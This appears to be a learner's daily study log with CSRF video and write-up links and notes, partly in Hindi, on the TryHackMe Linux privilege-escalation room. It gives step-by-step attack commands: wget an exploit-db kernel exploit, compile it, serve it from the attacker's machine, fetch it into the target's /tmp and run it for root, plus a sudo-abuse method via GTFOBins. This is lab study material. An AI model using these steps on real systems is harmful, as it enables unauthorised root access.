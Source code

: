 🎯 Day 9 Task


✅ CSRF Video


https://www.youtube.com/watch?v=iyE9UsBF64w

✅ POC


https://www.youtube.com/watch?v=TGJ4I-F5LhE


https://www.youtube.com/watch?v=YPnejsLPfVk


https://www.youtube.com/watch?v=gBdiKqNPQS8


https://www.youtube.com/watch?v=5jHIUTEdpvI



✅ CSRF Writeup 


https://infosecwriteups.com/understanding-exploiting-cross-site-request-forgery-csrf-vulnerabilities-935952375b71


https://huntr.dev/bounties/f952af13-8042-457d-b8d8-bd338987dc02/


✅ Tweet 


https://twitter.com/rootxyash/status/1480126074994368512


https://twitter.com/mavericknerd/status/1214071332083658757


-----------------------------------------------------------------------------------
🔁 THM Room 


➡ Working on Linux PrivEsc Room


✅ Completed till Task 6 Privilege Escalation Sudo 


https://tryhackme.com/room/linprivesc


For more Info check out my Github Repo


https://github.com/Imran407704/Learn365/


Some Tips :

The Kernel exploit methodology is simple :

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Remember that: a failed kernel exploit can lead to a system crash :P

The Sudo exploit methodology :

1. First check how many programs normal user run with sudo rights -: sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  
3. Paste that Command & You are Root User :)


 Some Keywords : 
 
 
 |  String            | Meaning                                                                |
| ----------------- | --------------------------------- |
| Local system | My Computer |
| EXPL_FILE | Name of that Particular Exploit (in my case the name of exploit is 37292) |
| IP:PORT | VPN IP (If you are on tryhackme) / local system IP:jo port se http server bana tha |
| - (hypen) | hypen ke baad command hai :) |
 
 
My Steps for Kernel Exploit :

1. Exploit ko local system me - wget https://www.exploit-db.com/exploits/EXPL_FILE se download kiya  
2. gcc se complile kiya - gcc 37292.c exploit 
3. local system me http server banaya - sudo python3 -m http.server
4. & Then target machine ke tmp (temp) directory me jaana hai bcoz yehi directory aisi hai jisme hamey write ki permission hai mai ne home directory me bhi check kiya but waha par exploit ko local machine se transfer nhi kar pa rha tha - wget http://IP:PORT/exploit (remember that http use karna hai not https )
5. ./exploit 
ROOT User :)


My Steps for Sudo Exploit :


1. First check how many programs normal user run with sudo rights - sudo -l
2. go to https://gtfobins.github.io & search the binary file which have sudo rights  

------------------------------------------------------------------------------------------------------------------------------------------------------

#bugbounty #privesc #infosec #learn365
